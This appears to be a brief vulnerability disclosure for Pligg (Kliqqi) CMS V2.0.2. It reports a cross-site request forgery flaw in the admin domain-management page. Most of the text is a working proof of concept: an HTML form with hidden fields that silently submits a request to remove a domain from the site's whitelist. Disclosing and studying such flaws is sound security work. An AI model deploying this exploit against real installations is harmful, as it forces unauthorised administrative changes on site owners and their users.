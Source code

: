 
target:https://github.com/Kliqqi-CMS/Kliqqi-CMS
version: V2.0.2

Pligg CMS V2.0.2 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/domain_management.php?id=0&list=whitelist&remove=pligg.com

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/domain_management.php?id=0&list=whitelist&remove=pligg.com" method="POST">
      <input type="hidden" name="id" value="0" />
<input type="hidden" name="list" value="whitelist" />
<input type="hidden" name="remove" value="pligg.com" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

